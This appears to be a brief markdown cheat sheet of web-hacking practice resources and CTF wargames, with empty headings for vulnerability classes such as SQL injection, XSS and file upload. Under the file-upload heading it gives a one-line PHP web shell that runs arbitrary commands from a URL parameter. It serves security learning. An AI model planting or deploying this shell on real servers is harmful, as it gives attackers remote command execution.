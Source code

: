 ## ► web

★ No. 1 resource for web: https://portswigger.net/

### Initial checks
- robots.txt
- git dumpster
- directory bruteforce

### Time wasters
- ☆ https://overthewire.org/wargames/natas/
- https://ctf.hacker101.com/
- https://www.hackthissite.org/
- http://www.dvwa.co.uk/

### SQL Injection
- https://github.com/Audi-1/sqli-labs/
### XSS
### XXE
### Path Traversal
### PHP deserealization
### File Upload

#### Basic PHP shell

``` <?php echo system($_GET['c']); ?> ```
